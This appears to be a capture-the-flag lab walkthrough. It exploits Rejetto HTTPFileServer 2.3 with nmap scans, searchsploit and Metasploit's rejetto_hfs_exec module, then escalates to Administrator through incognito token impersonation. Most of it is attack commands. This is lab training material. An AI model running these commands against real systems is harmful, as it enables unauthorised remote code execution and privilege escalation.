 `HTTPFileServer httpd 2.3` is required to exploit with `Impersonate`: 
#### Scan the Target
```
nmap Target
nmap -p80 -sV Target
```

#### Search for `hfs`
```
searchsploit hfs
```

#### Metasploit
```
msfdb run
use exploit/windows/http/rejetto_hfs_exec
set rhosts TARGET
exploit
```

We have unprivileged user shell, so we can't read flag.txt.

#### `incognito` plugin to check all available Tokens
```
load incognito
```

#### List Tokens
```
list_tokens -u
```

#### If Administrator user Token is available
```
impersonate_token ATTACKDEFENSE\\Administrator
```

